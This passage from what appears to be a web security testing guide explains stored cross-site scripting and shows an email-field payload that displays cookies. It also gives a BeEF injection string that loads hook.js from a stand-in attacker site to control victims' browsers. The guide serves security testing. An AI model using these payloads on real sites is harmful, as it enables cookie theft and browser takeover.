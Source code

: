 
**Result Expected**:

![Image:Stored_xss_example.jpg](https://www.owasp.org/images/d/dc/Stored_xss_example.jpg)


The HTML code following the injection:

```
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
```


The input is stored and the XSS payload is executed by the browser when reloading the page. If the input is escaped by the application, testers should test the application for XSS filters. For instance, if the string "SCRIPT" is replaced by a space or by a NULL character then this could be a potential sign of XSS filtering in action. Many techniques exist in order to evade input filters (see [testing for reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_%28OTG-INPVAL-001%29) chapter). It is strongly recommended that testers refer to [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) ,  [RSnake](http://ha.ckers.org/xss.html) and [Mario](https://h4k.in/encoding/) XSS Cheat pages, which provide an extensive list of XSS attacks and filtering bypasses. Refer to the whitepapers and tools section for more detailed information.


**Leverage Stored XSS with BeEF**

Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as [BeEF](http://www.beefproject.com), [XSS Proxy](http://xss-proxy.sourceforge.net/) and [Backframe](http://www.gnucitizen.org/projects/backframe/).


A typical BeEF exploitation scenario involves:

* Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF)
* Waiting for the application user to view the vulnerable page where the stored input is displayed
* Control the application user’s browser via the BeEF console


The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.

<b>Example</b>: BeEF Injection in index2.php:

```
aaa@aa.com”><script src=http://attackersite/hook.js></script>
```


When the user loads the page index2.php, the script hook.js is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.


**Result Expected**

![Image:RubyBeef.png](https://www.owasp.org/images/6/61/RubyBeef.png)

This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.
